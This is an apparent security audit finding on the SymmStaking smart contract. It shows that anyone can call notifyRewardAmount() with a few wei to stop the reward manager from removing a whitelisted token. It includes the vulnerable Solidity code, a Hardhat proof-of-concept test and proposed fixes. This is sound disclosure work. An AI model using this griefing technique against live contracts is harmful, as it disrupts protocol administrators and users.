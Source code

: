 Creamy Vinyl Canary

Medium

# Attacker can Dos {Reward Manager} preventing him to remove a whitelisted token by exploiting `SymmStaking:notifyRewardAmount()`

### Summary

`SymmStaking:notifyRewardAmount()` can be called by anyone. Attacker can call this function to increase the value of `pendingRewards[token]` greater than 10 wei and thus prevents the Reward Manager to remove whitelisted reward token

### Root Cause

Root Cause:
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L320C4-L320C101

Reward Manager call `SymmStaking:configureRewardToken()` to change the status of any token. But he can not make a token black listed if it has pending reaward greater than 10 wei
```solidity
function configureRewardToken(address token, bool status) external onlyRole(REWARD_MANAGER_ROLE) {
		_updateRewardsStates(address(0));

		if (token == address(0)) revert ZeroAddress();
		if (isRewardToken[token] == status) revert TokenWhitelistStatusUnchanged(token, status);

		isRewardToken[token] = status;
		if (!status) {
//attacker can exploit this condition to prevent Reward Manager making the token blacklisted
->->			if (pendingRewards[token] > 10) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
			uint256 len = rewardTokens.length;
			for (uint256 i = 0; i < len; i++) {
				if (rewardTokens[i] == token) {
					rewardTokens[i] = rewardTokens[rewardTokens.length - 1];
					rewardTokens.pop();
					break;
				}
			}
		} else {
			rewardTokens.push(token);
			rewardState[token].duration = DEFAULT_REWARDS_DURATION;
		}

		emit UpdateWhitelist(token, status);
	}

```
Attacker can exploit this condition by providing very less amount or almost nothing to the contract by calling `notifyRewardAmount()` and incrementing the value of `pendingRewards[token]` as the function has no restriction who can call it.
```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
		_updateRewardsStates(address(0));
		if (tokens.length != amounts.length) revert ArraysMismatched();

		uint256 len = tokens.length;
		for (uint256 i = 0; i < len; i++) {
			address token = tokens[i];
			uint256 amount = amounts[i];

			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
                       //Bug: 
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
		}
		emit RewardNotified(tokens, amounts);
	}


```
This function can be called by anyone. There's no validation or constraints on the amount rather than it can not be zero. The Reward Manager can not perform black listing  operation unless the distribution period ends or `pendingRewards[token] ` become less than 11 wei . And before ending the distribution period attacker can again do the same which would only cost him gas fee.

### Internal Pre-conditions

No Response

### External Pre-conditions

No Response

### Attack Path

1. Just before end of a distribution period attacker would call `notifyRewardAmount()` with amount ranging from 1 to 11 wei depending on if the period has any pending rewards.

### Impact

Impact is high because the capacity of Reward manager is undermined. And likelihood is very high.

### PoC

```solidity
it("Admin can not remove token if someone exploits notifyReward()", async function () {


			const depositAmount = "1209600"
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			// Admin configures and notifies USDT as reward token
			const rewardAmount = "604800"
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			// Fast forward time by 302,400 seconds (half of the reward duration)
			await time.increase(302400)

			// User1 claims half of the reward (302,400 USDT)
			const user1BalanceBeforeFirstClaim = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfterFirstClaim = await usdtToken.balanceOf(user1.address)
			const user1ClaimedFirstHalf = user1BalanceAfterFirstClaim - user1BalanceBeforeFirstClaim

			expect(user1ClaimedFirstHalf).to.equal("302400") // Half of the total reward

			// Fast forward time by another 402,400 seconds(more than 1 week is passed)
			await time.increase(402400)

			// User1 before claiming  the remaining reward (302,400 USDT) call notifyRewardAmount
			const user1BalanceBeforeSecondClaim = await usdtToken.balanceOf(user1.address)
			const rewardAmount1 = "11"
			await usdtToken.connect(user1).approve(await symmStaking.getAddress(), rewardAmount1)

			//user1 is calling notifyRewardAmount to Dos Admin
			await symmStaking.connect(user1).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount1])
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfterSecondClaim = await usdtToken.balanceOf(user1.address)
			const user1ClaimedSecondHalf = user1BalanceAfterSecondClaim - user1BalanceBeforeSecondClaim


			// Admin fails to  removes USDT token from reward pool
			await expect(symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), false)).to.be.revertedWithCustomError(
				symmStaking,
				"OngoingRewardPeriodForToken",
			)


		})
```

### Mitigation

There's two ways to mitigate this:
1) add modifier  `onlyRole(REWARD_MANAGER_ROLE)` to `notifyRewardAmount()` function or
2) put a high cap on amount in `notifyRewardAmount()` function. if it is 10 dollar then it would be 10e6 or much higher